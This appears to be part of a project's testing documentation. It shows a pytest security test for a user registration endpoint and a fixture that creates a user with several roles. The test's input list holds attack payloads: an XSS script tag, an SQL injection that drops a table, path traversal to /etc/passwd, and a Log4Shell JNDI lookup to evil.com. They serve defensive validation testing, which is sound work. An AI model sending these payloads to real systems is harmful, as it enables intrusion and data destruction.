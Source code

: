 ### Security Test Example

```python
# tests/security/test_input_validation.py
import pytest
from httpx import AsyncClient

class TestInputValidation:
    """Test input validation and sanitization."""

    @pytest.mark.security
    async def test_malicious_input_rejection(self, async_client: AsyncClient):
        """Test rejection of malicious inputs."""
        malicious_inputs = [
            "<script>alert('xss')</script>",
            "'; DROP TABLE users; --",
            "../../../etc/passwd",
            "javascript:alert('xss')",
            "${jndi:ldap://evil.com/a}"
        ]
        
        for malicious_input in malicious_inputs:
            response = await async_client.post(
                "/api/v1/users/register",
                json={
                    "username": malicious_input,
                    "email": "test@example.com",
                    "password": "TestPassword123!"
                }
            )
            
            # Should reject malicious input
            assert response.status_code in [400, 422]
```

## 🔧 Test Utilities

### Custom Test Fixtures

```python
# tests/conftest.py
import pytest
from app.models.user import User
from app.models.role import Role
from app.core.password import hash_password
from app.core.jwt import jwt_service

@pytest.fixture
async def test_user_with_roles(db_session, test_role, admin_role):
    """Create test user with multiple roles."""
    user = User(
        username="multiroleuser",
        email="multirole@example.com",
        password_hash=hash_password("MultiRole123!"),
        first_name="Multi",
        last_name="Role"
    )
    
    user.roles.extend([test_role, admin_role])
    db_session.add(user)
    await db_session.commit()
    await db_session.refresh(user)
    
```